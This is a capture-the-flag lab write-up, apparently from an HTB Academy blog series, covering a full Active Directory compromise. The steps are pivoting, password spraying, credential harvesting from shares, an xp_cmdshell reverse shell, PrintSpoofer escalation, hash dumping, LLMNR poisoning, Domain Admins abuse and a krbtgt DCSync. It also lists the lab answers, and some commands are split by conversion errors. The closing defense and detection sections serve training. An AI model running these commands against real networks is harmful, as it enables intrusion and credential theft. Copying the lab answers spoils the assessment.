*_Figure 107.2 — Lab execution and output verification (Page 107)_*


*_Figure 107.3 — Lab execution and output verification (Page 107)_*


### Run on pwnbox

#### Technical Methodology & Exploit Execution:

```bash
wget http://10.10.15.166:8080/agent.tar.gz -outfile
```
agent.tar.gz
to download from pwnbox server (10.10.15.66, port 8080) the agent.tar.gz file,
using 'wget' command (the download will take a minute or 2):

*Pay attention that for the pwnbox the user is 'htb-ac-1099135@htb-zztdfxnkfi'
And for the Linux target PAR01-SA2 machine the user is 'htb-student@skills-
par01', to differentiate between the terminals. *
Lets confirm transfer to PAR01-SA2:

We run the same extraction command on the agent
```bash
tar -xvf agent.tar.gz
```


Ok good, at this point we have the proxy ready on pwnbox attacking machine,
and the agent ready on PAR01-SA2 target machine.


*_Figure 108.1 — Lab execution and output verification (Page 108)_*


*_Figure 108.2 — Lab execution and output verification (Page 108)_*


*_Figure 108.3 — Lab execution and output verification (Page 108)_*


*_Figure 108.4 — Lab execution and output verification (Page 108)_*


### And when ready – we run the proxy

Next, we will run the same linking sequence of commands on the pwnbox we
did on 'Skill Assessment I'
```bash
sudo ip tuntap add user htb-ac-1099135 mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.16.6.0/23 dev ligolo
```
where 'htb-ac-1099135' is the pwnbox user.

And when ready – we run the proxy:
./proxy -selfcert


The proxy is Listening on default port 11601
While the proxy is listening on the pwnbox, we run the agent on PAR01-SA2:
./agent -connect 10.10.15.166:11601 -ignore-cert
When the agent has executed on the target PAR02-SA2, on the pwnbox proxy
we will get agent joined.
```bash
Run on the proxy CLI the commands:
```
session
1
start
to select session 1 (our agent that just joined), and start the tunnelling:


*_Figure 109.1 — Lab execution and output verification (Page 109)_*


*_Figure 109.2 — Lab execution and output verification (Page 109)_*


*_Figure 109.3 — Lab execution and output verification (Page 109)_*


### Lets confirm that via pinging MS01 from pwnbox

At this point we should have a connection from pwnbox to MS01
Lets confirm that via pinging MS01 from pwnbox:

Good! We have a connection – we can RDP our way in to MS01 from the
pwnbox, using the same xfreerdp command we did throughout the writeup:
```bash
xfreerdp /v:172.16.7.50 /u:AB920 /p:weasal /dynamic-
```
resolution
the target is MS01 (172.16.7.50) and the credentials are the username and
password we obtained in the previous 2 questions.
We run the xfreerdp.. (enter y when needed)
And we successfully RDP our way in to MS01:

Open the C:\ drive:


*_Figure 110.1 — Lab execution and output verification (Page 110)_*


*_Figure 110.2 — Lab execution and output verification (Page 110)_*


### Then – open the file and get the flag

> **Lab Question (Page 111)**: Use a common method to obtain weak credentials for another user. Submit the username for the user whose credentials you obtain.
>
> **Flag / Answer**: `BR086`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

on Linux PAR02-SA2 target machine – we run the following command:
```bash
crackmapexec smb 172.16.7.3 -u AB920 -p weasal --users | tee
```
users.txt
the command will enumerate for usernames with 'AB920' privileges (which are
required, else we get 'ACCESS DENIED').
We will use crackmapexec tool for that purpose, redirect the output for 'tee'
for effective redirection of results to users.txt file.
The method is based on a technique provided by 'Password Spraying - Making a
Target User List' section, however was not used by me in the section itself
when I did the section's questions (i used then other technique back then), I
also 'enhanced' the 'crackmapexec' command to include user's credentials in
it:


*_Figure 111.1 — Lab execution and output verification (Page 111)_*


*_Figure 111.2 — Lab execution and output verification (Page 111)_*


### format, we will use the command

#### Technical Methodology & Exploit Execution:

head -5 users.txt


*the results themselves begin from the 4th line forward.
Also we will run 'wc -l users.txt' to determine how many results we got (the
command counts the number of lines within the file):

We are dealing with 2904 lines, meaning +- 2901 users.
Anyway every line is at a format which contains far more information then we
need – we need only the usernames themselves.
In the picture above we can observe that the name of the usernames are
located at the fifth column, just after the '\'mark.
Lets Isolate them by truncation technique, we will need 'awk', and 'cut':
```bash
cat users.txt | awk '{print $5}' | cut -d '\' -f2 >
```
final_users.txt


*_Figure 112.1 — Lab execution and output verification (Page 112)_*


*_Figure 112.2 — Lab execution and output verification (Page 112)_*


*_Figure 112.3 — Lab execution and output verification (Page 112)_*


### username

#### Technical Methodology & Exploit Execution:

kerbrute passwordspray -d inlanefreight.local --dc
172.16.7.3 final_users.txt Welcome1
one success – BR086


*_Figure 113.1 — Lab execution and output verification (Page 113)_*


*_Figure 113.2 — Lab execution and output verification (Page 113)_*


### from there – we will use the commands

> **Lab Question (Page 114)**: What is this user's password?
>
> **Flag / Answer**: `Welcome1`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

'Welcome1' is the weak password used for the previous question's
'kerbture' method.

Question: Locate a configuration file containing an MSSQL connection string.
What is the password for the user listed in this file?
Answer: D@ta_bAse_adm1n!
Method: Method 1: we will use the newly obtained credentials of 'BR086' –
lets run the following command to determine which shares 'BR086' can read
within DC01
```bash
sudo crackmapexec smb 172.16.7.3 -u BR086 -p Welcome1 --
```
shares


BR086 can read the bottom 4 shares. The share of 'Department Shares' looks
interesting.
*Note – running the command above with AB920 user will yield the same
permissions, however I will tell you upfront that some of the files within
'Department Shares' AB920 don't have permissions too, so using the method
with AB920 will not work – you have to use 'BR086' – or quoting the question's
hint: 'remember not all users have the same permissions'.

Anyway, now that we have read access to 'Department Shares' – lets download
its content to PAR02-SA2 machine, and read any relevant connectionStrings
from there – we will use the commands:
mkdir imported_data


*_Figure 114.1 — Lab execution and output verification (Page 114)_*


### From pwnbox to 'PAR01-SA2'

```bash
sudo mount -t cifs //172.16.7.3/"Department Shares"
```
imported_data -o username=BR086,password=Welcome1
lets confirm download

Now when the data is safely on our machine – on the directory
'imported_data', lets search it
```bash
sudo find imported_data -type f 2>/dev/null | xargs grep -i
```
"connectionString" 2>/dev/null


We can observer that the connection String credentials are
'netdb:D@ta_bAse_adm1n!'.

Method 2: get to MS01 RDP in the same method (with AB920 credentials) used
in the previous question (using Ligolo),
And get to it the tool 'Snaffler.exe'.
We will use the following instruction, based on the network layout that was
already established in previous questions.
*All IP's and ports are already hard coded in the following commands. *

From pwnbox to 'PAR01-SA2':
start web server on pwnbox:
```bash
python3 -m http.server 8080
```


*_Figure 115.1 — Lab execution and output verification (Page 115)_*


*_Figure 115.2 — Lab execution and output verification (Page 115)_*


*_Figure 115.3 — Lab execution and output verification (Page 115)_*


### to download Snaffler on 'PAR01-SA2' run the command

#### Technical Methodology & Exploit Execution:

```bash
wget http://10.10.15.166:8080/Snaffler.exe -outfile
```
Snaffler.exe


Confirm download:


From 'PAR01-SA2' to MS01:
```bash
python3 -m http.server 8080
```
start web server on 'PAR01-SA2':

```bash
Use evil-WinRM to quickly have a shell to MS01 and run
iwr -uri http://172.16.7.240:8080/Snaffler.exe -outfile
```
Snaffler.exe


And confirm download on the RDP:


*_Figure 116.1 — Lab execution and output verification (Page 116)_*


*_Figure 116.2 — Lab execution and output verification (Page 116)_*


*_Figure 116.3 — Lab execution and output verification (Page 116)_*


*_Figure 116.4 — Lab execution and output verification (Page 116)_*


*_Figure 116.5 — Lab execution and output verification (Page 116)_*


### When Snaffler is installed open powershell

#### Technical Methodology & Exploit Execution:

.runas /netonly /user:INLANEFREIGHT\BR086 powershell
The command will prompt you for password of 'BR086' (which already
obtained) – and then will open another powershell instance with the
permissions and privileges of 'BR086':
There – cd the way to BR920 documents folder, where the Snaffler is:
```bash
cd C:\Users\AB920\Documents
```


Then on BR920 powershell, run the following command:
.\Snaffler.exe  -d INLANEFREIGHT.LOCAL -s -v data


*_Figure 117.1 — Lab execution and output verification (Page 117)_*


*_Figure 117.2 — Lab execution and output verification (Page 117)_*


### First let's determine the IP Address of SQL01

> **Lab Question (Page 118)**: Submit the contents of the flag.txt file on the Administrator Desktop on the SQL01 host.
>
> **Flag / Answer**: `s3imp3rs0nate_cl@ssic`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First let's determine the IP Address of SQL01:
```bash
nslookup SQL01.INLANEFREIGHT.LOCAL 172.16.7.3
```
the IP(v4) is 172.16.7.60

Lets try to use the recent obtained credentials to connect to the sql host in the
same manner used in the SQL question in 'Privileged Access' section:
mssqlclient.py INLANEFREIGHT/netdb@172.16.7.60
we are prompted for password:

Upon entering the password get the the SQL CLI. Lets get the flag with the
command:
xp_cmdshell type C:\Users\Administrator\Desktop\flag.txt
access denied


*_Figure 118.1 — Lab execution and output verification (Page 118)_*


*_Figure 118.2 — Lab execution and output verification (Page 118)_*


*_Figure 118.3 — Lab execution and output verification (Page 118)_*


### machine to see what services are running on it

#### Technical Methodology & Exploit Execution:

xp_cmdshell powershell [System.Environment]::OSVersion
*note – the command we run is POWERSHELL command, hense the sea-blue
color. *:

SQL01 is a Windows 10 machine

As the machine a windows 10 - perhaps we can use printspoofer vulnerability –
which can used to obtain Privilege Escalation in Windows 10 machines (also
Windows server 2016/2019 but that irrelevant for our current purpose)
We can download an exploit from here.


*_Figure 119.1 — Lab execution and output verification (Page 119)_*


*_Figure 119.2 — Lab execution and output verification (Page 119)_*


### – I moved it to the home directory with the command

#### Technical Methodology & Exploit Execution:

```bash
unzip printspoofer-master.zip
```


We need the .exe file within the directory 'printspoofer-master', for convience
– I moved it to the home directory with the command:
mv printspoofer-master/PrintSpoofer.exe PrintSpoofer.exe

lets confirm 'PrintSpoofer.exe' existence in 'PAR01-SA2' target machine:


Ok, so we have the 'PrintSpoofer.exe' in 'PAR01-SA2' target machine, now the
objective is to transfer the executable to SQL01 machine.
For that (and the next parts) – we will initiate reverse shell from SQL01
(172.16.7.60) to PAR01-SA2 (our target machine) (172.16.7.240)
On PAR01-SA2 lets run a netcat listener on port 4444:
```bash
nc -lnvp 4444
```

then we go to revshell generator to create custom reverse shell payload:
(the PowerShell reverse shell script used in previous sections will not work
here).


*_Figure 120.1 — Lab execution and output verification (Page 120)_*


*_Figure 120.2 — Lab execution and output verification (Page 120)_*


### Then we scroll down a bit

#### Technical Methodology & Exploit Execution:

xp_cmdshell powershell -e "<base64 payload here>"
as we can see, the copied base64 payload are within quotation marks, that's
why a we could not direct copy the 'powershell -e' as well:


*_Figure 121.1 — Lab execution and output verification (Page 121)_*


*_Figure 121.2 — Lab execution and output verification (Page 121)_*


*_Figure 121.3 — Lab execution and output verification (Page 121)_*


### Lets run python http.server on 'PAR01-SA2'

When running the command we have a shell from SQL01 to 'PAR01-SA2'.
Lets run python http.server on 'PAR01-SA2':

And on the SQL01 reverse shell terminal, we will a. Move to 'Windows\Temp
folder', b. Download the exe from 'PAR01-SA2' target machine:
```bash
cd C:\Windows\Temp
```

```bash
iwr -uri http://172.16.7.240:8080/PrintSpoofer.exe -outfile
```
PrintSpoofer.exe

```bash
ls PrintSpoofer.exe
```
*The change directory to Temp is required because as far as i'm aware, it is the
only folder where there is a user permission to 'netdb' to download the
executable, for any other paths it will fail. * the 'ls' command will confirm the
download:


*_Figure 122.1 — Lab execution and output verification (Page 122)_*


*_Figure 122.2 — Lab execution and output verification (Page 122)_*


*_Figure 122.3 — Lab execution and output verification (Page 122)_*


### Didn't work – no privileges

Now – the first thing i've tried is to directly cat the flag with the PrintSpoofer:
.\PrintSpoofer.exe -i -c "cat
C:\Users\Administrators\Desktop\flag.txt"
Didn't work – no privileges:

So lets try something else – like change the administrator password:
.\PrintSpoofer.exe -i -c "net user administrator jonsnow"


It worked! The administrator's password is now 'jonsnow'.

Now lets go to 'PAR01-SA2' terminal, and try to access the SQL01 machine with
the credentials 'administrator:jonsnow':
mssqlclient.py INLANEFREIGHT/administrator@172.16.7.60


Logon failed. Maybe we can enter via other service, the nmap scan did show
port 5985 WinRM:
```bash
evil-winrm -i 172.16.7.60 -u administrator -p jonsnow
```


*_Figure 123.1 — Lab execution and output verification (Page 123)_*


*_Figure 123.2 — Lab execution and output verification (Page 123)_*


*_Figure 123.3 — Lab execution and output verification (Page 123)_*


### we will use the command - option 1

> **Lab Question (Page 124)**: Submit the contents of the flag.txt file on the Administrator Desktop on the MS01 host.
>
> **Flag / Answer**: `exc3ss1ve_adm1n_r1ights!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from where we left off (SQL01 administrator password was
changed to 'jonsnow', and 'Ligolo' routing is established from pwnbox to active
directory network) -
We will use the recent obtained SQL01 admin credentials to dump the hashes,
we will use the command - option 1:
secretsdump.py administrator:jonsnow@172.16.7.60


*_Figure 124.1 — Lab execution and output verification (Page 124)_*


*_Figure 124.2 — Lab execution and output verification (Page 124)_*


### Option 2 - We can also run

We can observe the 'mssqlsvc' credentials are clear-text visible.

Option 2 - We can also run:
```bash
crackmapexec smb 172.16.7.60 -u administrator -p jonsnow --
```
local-auth --lsa


*both commands above do the exact same purpose *
When we have mssqlsvc: Sup3rS3cur3maY5ql$3rverE credentials – lets run
them on MS01 RDP:
```bash
xfreerdp /v:172.16.7.50 /u:mssqlsvc
```
/p:'Sup3rS3cur3maY5ql$3rverE' /dynamic-resolution
*make sure that the password are within quotation marks because of the '$'
symbol in it. *
*we can also use WinRM, but RDP is cooler (: *


*_Figure 125.1 — Lab execution and output verification (Page 125)_*


*_Figure 125.2 — Lab execution and output verification (Page 125)_*


### the flag

> **Lab Question (Page 126)**: Obtain credentials for a user who has GenericAll rights over the Domain Admins group. What's this user's account name?
>
> **Flag / Answer**: `CT059`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

based on the hint of think the original way we obtained a foothold –
we will use the technique of 'LLMNR/NBT-NS Poisoning - from Windows'
section, and just like then – we will use the 'Inveigh' tool to capture hashes (fur
further details about the tool – refer to the 'LLMNR/NBT-NS Poisoning - from
Windows' section.
As for now, we login to the MS01 machine with 'mssqlsvc' credentials (which in
last question we obtained it, and established that he has administrator
privileges on the machine) (also, the steps to arrenge the RDP connection to
MS01 were detailed in previous questions). and import 'Inveigh' and
'PowerView' tools to MS01 (the steps of how to do it were detailed in previous
answer with other tools). Place both tools within the same directory (in this


*_Figure 126.1 — Lab execution and output verification (Page 126)_*


*_Figure 126.2 — Lab execution and output verification (Page 126)_*


### We will use the commands

case it is 'C:\Users\Administrator\Inveigh-master\Inveigh-master' (I put
'PowerView' within 'Inveigh-master' folder for convenience):

Open powershell on ADMINISTRATOR, on the mentioned path.
When powershell is open and ready, run Inveigh with the commands:
```bash
Import-Module .\Inveigh.ps1
```

Invoke-Inveigh -NBNS Y -LLMNR Y -HTTP Y -HTTPS Y -SMB Y -
ConsoleOutput Y -FileOutput Y
Very quickly we will be informed that NTLMv2 hash was captured for the user
'CT059' including the hash (that will be cracked in the next question's method):

Now that we have the user – we need to determine if he has 'GenericAll' rights
over Domain Admins group. For that we will need the 'PowerView' tool.
We will use the commands:
```bash
Import-Module .\PowerView.ps1
```
$sid = Convert-NameToSid CT059

Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -
eq $sid}
Among other results we will encounter this:


*_Figure 127.1 — Lab execution and output verification (Page 127)_*


*_Figure 127.2 — Lab execution and output verification (Page 127)_*


### with rockyou wordlist, and run hashcat with the command

> **Lab Question (Page 128)**: Crack this user's password hash and submit the cleartext password as your answer.
>
> **Flag / Answer**: `charlie1`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will get the has to a file called 'CT059.txt' in the pwnbox, along
with rockyou wordlist, and run hashcat with the command:
```bash
hashcat -m 5600 hash_svc_qualys.txt rockyou.txt
```
(-m is 5600 here – for NetNTLMv2):


*_Figure 128.1 — Lab execution and output verification (Page 128)_*


*_Figure 128.2 — Lab execution and output verification (Page 128)_*


### from last question, on MS01 machine) – we run the command

> **Lab Question (Page 129)**: Submit the contents of the flag.txt file on the Administrator desktop on the DC01 host.
>
> **Flag / Answer**: `acLs_f0r_th3_w1n!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will utilize our recent obtained user's credentials - CT059:charlie1
genericAll rights over 'Domain Admins' group – to add the 'CT059' itself to the
group, and get the flag from DC01.
From a PowerShell window (In this case – it is the same PowerShell session
from last question, on MS01 machine) – we run the command:
runas /netonly /user:INLANEFREIGHT\CT059 powershell
It will create a new PowerShell terminal under the privileges of 'CT059':

We will be prompted for the password, which we have.
Once the command is executed – we are being prompted with a new
```bash
powershell terminal running as CT059:
```

Make sure first to change working directory to where-ever PowerView is
installed (in this case it is 'C:\Users\Administrator\Inveigh-master\Inveigh-
master'), then import the Powerview module – and then run the sequence of
commands:
```bash
cd C:\Users\Administrator\Inveigh-master\Inveigh-master
Import-Module .\PowerView.ps1
```

Add-DomainGroupMember -Identity "Domain Admins" -Members
"INLANEFREIGHT\CT059"
Where the last command adds 'CT059' himself to Domain Admins group.


*_Figure 129.1 — Lab execution and output verification (Page 129)_*


*_Figure 129.2 — Lab execution and output verification (Page 129)_*


### First – IP , lets go to EA-PAR01-SA2 terminal and run

When it is done – lets investigate DC01.
First – IP , lets go to EA-PAR01-SA2 terminal and run:
```bash
nslookup SQL01.INLANEFREIGHT.LOCAL 172.16.7.3
```


Next: nmap, lets see what services are running on it:
(that I did from pwnbox, as in this stage there is already 'Ligolo' routing
enabled, howevet that can be done from EA-PAR01-SA2 machine as well)
```bash
nmap 172.16.7.3 -sV -p 1-7500
```


*_Figure 130.1 — Lab execution and output verification (Page 130)_*


*_Figure 130.2 — Lab execution and output verification (Page 130)_*


*_Figure 130.3 — Lab execution and output verification (Page 130)_*


### We will utilize 'evil-winrm' tool

There are several services that can be utilized to obtain the flag, we will take
the WinRM service running on port 5985 (and, DC01 is windows machine)
We will utilize 'evil-winrm' tool:
```bash
evil-winrm -i 172.16.7.3 -u CT059 -p charlie1
```


we enter it – and we get a powershell to DC01, with administrator privilegee.
Lets cat the flag:
```bash
cat C:\Users\Administrator\Desktop\flag.txt
```


*_Figure 131.1 — Lab execution and output verification (Page 131)_*


*_Figure 131.2 — Lab execution and output verification (Page 131)_*


### We will run the command

> **Lab Question (Page 132)**: Submit the NTLM hash for the KRBTGT account for the target domain after achieving domain compromise.
>
> **Flag / Answer**: `7eba70412d81c1cd030d72a3e8dbe05f`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

We will run the command:
secretsdump.py inlanefreight.local/CT059@172.16.7.3 -just-
dc-user INLANEFREIGHT/krbtgt
(request krbtgt information with secretsdump tool using CT059 credentials,
from DC01 (172.16.7.3) (where the accounts informations, including passwords
are stored):


*_Figure 132.1 — Lab execution and output verification (Page 132)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1087.002, T1558.003, T1558.004, T1003.006` |
| **Common Weakness Enumerations** | `CWE-287, CWE-269` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1087.002`](https://attack.mitre.org/techniques/T1087/) | **Account Discovery: Domain Account** | `Discovery` | Enumerating AD users, groups, and service accounts using LDAP/RPC |
| [`T1558.003`](https://attack.mitre.org/techniques/T1558/) | **Steal or Forge Kerberos Tickets: Kerberoasting** | `Credential Access` | Requesting TGS tickets for SPNs and offline hash cracking |
| [`T1558.004`](https://attack.mitre.org/techniques/T1558/) | **Steal or Forge Kerberos Tickets: AS-REP Roasting** | `Credential Access` | Harvesting AS-REP tickets for accounts with 'Do not require Kerberos preauthentication' |
| [`T1003.006`](https://attack.mitre.org/techniques/T1003/) | **OS Credential Dumping: DCSync** | `Credential Access` | Replicating domain credentials via MS-DRSR protocol |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-287`: Improper Authentication](https://cwe.mitre.org/data/definitions/287.html)
- [`CWE-269`: Improper Privilege Management in Directory Services](https://cwe.mitre.org/data/definitions/269.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Windows Event ID 4769: Audit Kerberos service ticket requests using RC4 encryption (`Ticket Options: 0x40810000`, `Ticket Encryption: 0x17`).
- Windows Event ID 4768: Audit Kerberos TGT requests with pre-authentication disabled (`Pre-Authentication Type: 0`).
- Monitor MS-DRSR directory replication network traffic originating from non-domain controller IP addresses (DCSync alerting).


---

## Authoritative References & Recommended Reading

- [HTB Academy: Active Directory Enumeration & Attacks](https://academy.hackthebox.com/module/143) — *Official Hack The Box curriculum track*
- [BloodHound GUI & SharpHound Documentation](https://bloodhound.readthedocs.io/) — *Active Directory attack graph modeling*
- [ADSecurity.org (Sean Metcalf)](https://adsecurity.org/) — *Premier Active Directory security reference and defensive guidance*
- [Mimikatz Wiki & Guide (Gentilkiwi)](https://github.com/gentilkiwi/mimikatz) — *Authoritative post-exploitation credentials extraction tool*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-11-attacking-common-applications/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 11: Attacking Common Applications (Tomcat, Jenkins, Splunk)</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 12 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-13-attacking-enterprise-networks/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 13: Attacking Enterprise Networks & Multi-Homed Pivoting</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
